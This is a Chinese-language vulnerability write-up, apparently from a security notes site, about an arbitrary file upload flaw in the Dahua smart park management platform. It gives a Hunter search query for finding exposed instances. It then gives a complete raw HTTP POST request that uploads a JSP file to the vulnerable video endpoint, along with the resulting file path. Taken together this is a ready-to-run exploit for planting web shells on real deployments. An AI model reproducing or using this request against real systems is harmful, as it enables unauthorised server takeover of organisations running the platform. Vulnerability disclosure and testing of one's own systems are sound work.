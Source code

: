 # 大华智慧园区综合管理平台video任意文件上传漏洞

# 一、漏洞描述
大华智慧园区综合管理平台是一个集智能化、信息化、网络化、安全化为一体的智慧园区管理平台，旨在为园区提供一站式解决方案，包括安防、能源管理、环境监测、人员管理、停车管理等多个方面。 大华智慧园区综合管理平台存在文件上传漏洞，攻击者可以通过请求publishing/publishing/material/file/video接口任意上传文件，导致系统被攻击与控制。

# 二、影响版本
+ 大华智慧园区综合管理平台

# 三、资产测绘
+ hunter:`app.name="Dahua 大华 智慧园区管理平台"`  
![1691828229241-1a7a5e8c-d5e6-4852-b428-047c6c955113.png](./img/WIhLPHsxR0MtfBnz/1691828229241-1a7a5e8c-d5e6-4852-b428-047c6c955113-368760.png)
+ 登录页面：

![1691828319702-85171e4b-cb4b-4826-a654-3c8859b17138.png](./img/WIhLPHsxR0MtfBnz/1691828319702-85171e4b-cb4b-4826-a654-3c8859b17138-078258.png)

# 四、漏洞复现
```plain
POST /publishing/publishing/material/file/video HTTP/1.1
Content-Type: multipart/form-data; boundary=00content0boundary00
User-Agent: Java/1.8.0_381
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
Content-Length: 287

--00content0boundary00
Content-Disposition: form-data; name="Filedata"; filename="1ndex.jsp"

test
--00content0boundary00
Content-Disposition: form-data; name="file"

file
--00content0boundary00
Content-Disposition: form-data; name="Submit"

submit
--00content0boundary00--

```

![1691828397306-98208fcc-6c2f-47b1-9ef5-00ef5a6fa4bf.png](./img/WIhLPHsxR0MtfBnz/1691828397306-98208fcc-6c2f-47b1-9ef5-00ef5a6fa4bf-304986.png)

上传文件位置：

```plain
/publishingImg/VIDEO/230812162057144051.jsp
```

![1691828467294-b2ffd5e1-6752-43e1-af2c-0c5ace27137c.png](./img/WIhLPHsxR0MtfBnz/1691828467294-b2ffd5e1-6752-43e1-af2c-0c5ace27137c-599009.png)



> 更新: 2024-02-29 23:57:19  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/lggztymnkglaq1p9>